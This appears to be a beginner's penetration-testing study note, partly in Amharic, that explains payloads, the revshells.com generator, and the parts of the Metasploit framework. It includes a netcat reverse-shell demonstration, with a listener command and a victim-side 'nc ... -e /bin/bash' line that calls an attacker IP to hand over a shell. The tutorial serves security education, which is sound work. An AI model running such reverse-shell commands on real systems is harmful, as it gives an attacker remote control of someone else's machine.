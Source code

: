 Payload refers to the code or commands that are delivered and executed on a target system to perform a specific action, like gaining control, stealing information, creating reverse-shell or damaging data.
- In simpler terms, it's the part of an exploit that carries out the attacker's **intent after a vulnerability has been exploited**.
- **Example**: 
	- የሆነ ቤት ለመስረቅ, ክፍተቱ/Vulnerability ያለው የበራቸው መቀርቀርያ ስስ መሆኑ ከሆነ, በሩን መስበር **Exploit** ይባላል **Payload** ደግሞ በሩ ከተሰበረ በኋላ የምናደርገው ተግባር ነው።
	- ■ ይህም ወደ ውስጥ መግባት ወይም መሰለያ ቁሶችን መወርወር ሊሆን ይችላል.
- **Payloads** can be In Many formats and Programming languages.
	- You can use https://www.revshells.com/ site to **generate Bind / Reverse shell commands.**

1. On the attacker machine we started a listener…
	- -l : Listen 
	- -v: verbose 
	- -p: port 
	- -n: No-DNS resolution
```
>	nc -lvp 2222
```
2. On the victim i called the attacker IP on that specific port
```
>	nc 192.168.56.102 -e /bin/bash
```
This is Where we use payloads.

- As you see on the attacker machine we got reverse shell and we can interact with the victims PC.

## Revshell

https://www.revshells.com/

## Metasploit

The **Metasploit framework** is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers.
- It is written with **ruby**. 
- It has a lot of exploits for different kind of vulnerabilities and CVE’s
- It Provides you:
	- ○ **Exploits**,
	- ○ **Payloads**,
	- ○ **Auxiliaries**: Programs That will help to scan further on the services/protocols. 
	- ○ **Encoders**: Like Crypters
	- ○ **Listeners**,
	- ○ **Post-exploitation codes**: Used to perform further attack after we Exploit the system, like privilege Escalation

## Methodology

After Successful Enumeration and Scanning, We can Use Metasploit to Gain and Maintain Access.
- The Use of Metasploit,
	- ○ Making Payloads. 
	- ○ Exploiting Vulnerabilities.
- **MSF** the Framework contains Different Tools inside it.
	- ○ **Msfvenom**: A standalone tool for generating payloads and shellcode 
	- ○ **Msfconsole**: The primary Metasploit interface, which provides an interactive command-line interface to Metasploit. 
	- ○ **Msfdb**: A command-line tool for managing the Metasploit database. 
	- ○ …

